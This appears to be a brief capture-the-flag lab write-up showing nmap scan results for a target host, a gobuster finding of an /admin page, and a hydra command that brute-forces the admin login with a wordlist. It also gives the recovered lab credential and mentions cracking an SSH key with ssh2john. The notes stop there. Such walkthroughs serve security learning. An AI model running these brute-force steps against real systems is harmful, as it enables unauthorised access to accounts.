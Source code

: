# namp

```shell
Nmap scan report for 10.10.172.9
Host is up (0.16s latency).
Not shown: 65518 closed tcp ports (conn-refused)
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp    open     http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

running gobuster found `/admin` page

running hydra for password and user name was found in the source page

`hydra -l admin -P ~/Downloads/rockyou.txt 10.10.172.9 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"`

found credential `admin:xavier` and id_rsa key running ssh2john


